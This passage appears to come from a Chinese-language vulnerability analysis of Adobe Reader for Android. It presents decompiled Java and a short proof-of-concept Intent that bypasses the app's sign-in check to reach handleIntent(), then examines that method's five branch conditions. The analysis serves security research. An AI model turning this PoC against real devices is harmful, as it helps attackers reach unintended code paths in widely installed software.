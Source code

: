 ```Java
    
    private void handleOnResume() {
        if(!ARIntentUtils.isEurekaReviewIntent(this.getIntent()) && !ARServicesAccount.getInstance().isSignedIn() 
                && !this.shouldDisableOptionalSignForAutomation(this.getIntent())) {
            this.handleSSO();
            return;
        }

        this.handleIntent();  // [2]
    }
```

如下构造POC即可使业务逻辑走到`[2]`

```Java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

`handleIntent()`一共有五个判断点，前四个判断点不能进入，只能进入第五个判断点

```Java
// com.adobe.reader.AdobeReader
public class AdobeReader extends AppCompatActivity implements ARSigningUtilsHandleOnClickingCross {

    private void handleIntent() {
        this.mShouldCheckForLogin = false;
        Intent __intent__ = this.getIntent();  // 获取传入的intent
        v1.toString();  // 此处反编译错误，不影响
        if((this.wasLaunchedFromRecents()) && (ARHomeActivity.getIsBackPressedForExitingApp())) {  // 第一个判断点
            ...
            return;
        }

        if(ARIntentUtils.isEurekaReviewIntent(__intent__)) {  // 第二个判断点
            ...
            return;
        }

        if(ARIntentUtils.isSendAndTrackReviewIntent(__intent__)) {  // 第三个判断点
            ...
            return;
        }

        if(!TextUtils.equals(__intent__.getScheme(), "http") && !TextUtils.equals(__intent__.getScheme(), "https")) {  // 第四个判断点
            ...
            return;
        }

        if(__intent__.getData() != null && !__intent__.getData().toString().contains("app.link")) {  // 第五个判断点
            ...
            return;
        }

        ...
    }
    
    ...
}
```